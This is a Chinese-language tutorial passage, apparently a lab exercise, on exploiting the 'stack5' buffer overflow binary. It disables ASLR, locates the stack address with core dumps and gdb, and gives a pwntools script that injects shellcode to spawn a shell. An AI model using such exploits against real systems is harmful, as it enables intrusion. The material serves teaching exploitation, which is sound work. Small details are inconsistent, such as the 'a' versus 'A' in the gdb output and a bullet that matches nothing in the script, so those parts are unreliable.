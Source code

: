```
```
问题是如何得到shellcode的地址呢，也就是说如何得到当前栈的地址,这里可以使用core dump来查找。
首先开启core dump的记录功能。
```
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
```
同时我们需要关闭Linux系统的alsr保护。
```
sudo sh -c "echo 0 > /proc/sys/kernel/randomize_va_space"
```
再次触发溢出，并通过gdb查看core文件。
```
$ python -c "print 'A'*200" | ./stack5
Segmentation fault (core dumped)
$ gdb stack5 /tmp/core.1522317467
Core was generated by `./stack5'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x41414141 in ?? ()
gdb-peda$ x/10s $esp-0x50
0xffffcf20:	'a' <repeats 200 times>
0xffffcfe8:	""
0xffffcfe9:	"\230\376", <incomplete sequence \367>
0xffffcfed:	"\320\377\367\001"
0xffffcff2:	""
0xffffcff3:	""
0xffffcff4:	"\020\203\004\b"
0xffffcff9:	""
0xffffcffa:	""
0xffffcffb:	""

```
可以看到我们输入数据是从地址`0xffffcf20`开始的，那么ret的值我们就可以覆盖为`'\x20\xcf\xff\xff'`
最后编写脚本进行溢出攻击。
```
from pwn import *

io = process('./stack5')
sc = asm(shellcraft.i386.sh())
payload = sc
payload += ((0x48+4)-len(sc)) * 'a'
payload += '\x20\xcf\xff\xff'
io.sendline(payload)
io.interactive()

```
上面的脚本使用了pwntools，其中
- `process（）`建立脚本和二进制程序的连接
- `shellcraft.i386.sh（）`用以生成i386下的shellcode
- `asm（）`将shellcode由汇编指令转换成机器码。
- Temp接收s[]的地址
- `sendline（）`将payload输入到二进程程序中
- `interactive（）`将控制交还给用户，以便于我们操作shell。
